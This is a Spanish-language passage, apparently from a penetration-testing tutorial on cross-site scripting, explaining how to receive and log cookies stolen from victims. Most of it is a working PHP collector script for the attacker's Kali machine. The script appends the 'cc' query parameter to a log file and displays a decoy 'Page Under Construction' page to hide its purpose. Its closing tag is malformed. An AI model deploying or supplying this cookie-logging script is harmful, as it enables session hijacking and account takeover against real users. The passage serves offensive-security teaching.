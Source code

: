 ![](<../../.gitbook/assets/image (12).png>)

Cookie Recording & Logging:

Una vez que el lado del cliente ha realizado la solicitud a nuestro CGI controlado, es hora de manejar la solicitud y administrar el parámetro enviado.

Aquí, definimos qué información recopilar, cómo almacenarla y la acción a realizar una vez que se obtenga esta valiosa información.

Supongamos que tenemos nuestro script PHP C.php escuchando en nuestra máquina kali

Un ejemplo básico es almacenar el contenido de GET\['cc'] en un archivo.

```php
<?php
error_reporting(0); #turn off all error reporting
$cookie = $_GET['cc']; #request to log
$file = '_cc_.txt'; #the log file
$handle = fopen($file,"a"); # open log file in append mode
fwrite($handle,$cookie."\n"); # append the cookie
fclose($handle); #append the cookie
echo '<h1>Page Under Construction</h1>'; #trying to hide suspects
>
```

![](<../../.gitbook/assets/image (13).png>)
